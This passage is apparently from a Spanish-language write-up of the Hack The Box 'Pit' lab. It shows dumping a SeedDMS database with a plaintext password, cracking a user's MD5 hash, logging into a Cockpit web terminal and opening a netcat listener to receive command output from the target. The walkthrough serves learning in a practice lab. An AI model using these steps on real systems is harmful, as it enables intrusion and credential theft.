 Vemos las tablas de X base de datos, existe una llamada **seeddms**:

```bash
nginx@pit:/casita$ mysqlshow -u seeddms -pied^ieY6xoquu seeddms
```

De todas las tablas existen 3 llamativas: `tblUserPasswordHistory`, `tblUserPasswordRequest` y `tblUsers`.

Con **mysqlshow** podemos ver la estructura de cada tabla más no su información, juguemos con **mysqldump**:

```bash
nginx@pit:/casita$ mysqldump -u seeddms -pied^ieY6xoquu seeddms tblUserPasswordHistory
nginx@pit:/casita$ mysqldump -u seeddms -pied^ieY6xoquu seeddms tblUserPasswordRequest
nginx@pit:/casita$ mysqldump -u seeddms -pied^ieY6xoquu seeddms tblUsers
```

La única que devuelve información es `tblUsers`, encontramos la password en formato hash **MD5**, pero al intentar crackearlas solo encontramos resultado con **michelle** (que seria `michelle` :P)

...

Jugando con **SSH** obtenemos este error siempre:

```bash
❱ ssh michelle@10.10.10.241
michelle@10.10.10.241: Permission denied (publickey,gssapi-keyex,gssapi-with-mic).
```

Intentando arreglarlo no lo logramos :(

...

# Ejecución de comandos en servidor CentOS por medio de la interfaz web [#](#expl_centos_login_done) {#expl_centos_login_done}

Volviendo atrás recordé el login que teníamos contra el servidor **CentOS** con `cockpit`, ¿lo recuerdas? Pues probando esa contraseña con el usuario **michelle** logramos acceder (:

![346page9090_dashboard](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/pit/346page9090_dashboard.png)

Lissssssstones, enumerando un poquito la web encontramos esto:

![346page9090_terminalLink](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/pit/346page9090_terminalLink.png)

Damos clic y nos muestra esto:

![346page9090_terminal](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/pit/346page9090_terminal.png)

Y sí, es una terminal, pero no vemos nada de lo que escribimos 🙃 interesante jajaj .__. Intentando comprobar si es funcional logramos cositas:

Podemos decirle que nos envíe el resultado de un comando a algún puerto en el que estemos escuchando:

Nos ponemos en escucha: `nc -lvp 4433`.
